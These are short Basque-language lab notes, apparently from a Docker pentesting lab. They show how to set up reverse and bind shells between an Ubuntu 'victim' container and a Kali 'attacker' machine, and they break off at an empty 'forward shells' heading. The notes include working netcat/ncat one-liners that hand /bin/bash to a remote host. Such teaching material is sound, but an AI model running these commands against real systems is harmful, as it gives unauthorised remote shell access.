



## Reverse shell


Ubuntu makina bat martxan jarri. Makina hontetatik (biktima) gure kali makinara (atakantea) shell bat bidaliko dugu.

```bash
docker run -dit --name ubunturs --network  hacking-lab_pentesting-lab-network ubuntu:latest
```

Jarri kali makina entzuten
```bash
nc -nlvp 443
```

Bidali shell bat gure ordenagailura:
```bash
ncat -e /bin/bash hacking-lab-kali-rolling-1 443
```

## Bind shell



Jarri biktima makina entzuten
```bash
ncat -nlvp 443 -e /bin/bash
```

Kali makinarekin konekatau

```bash
nc ubunturs 443
```

s
## Fordward shells
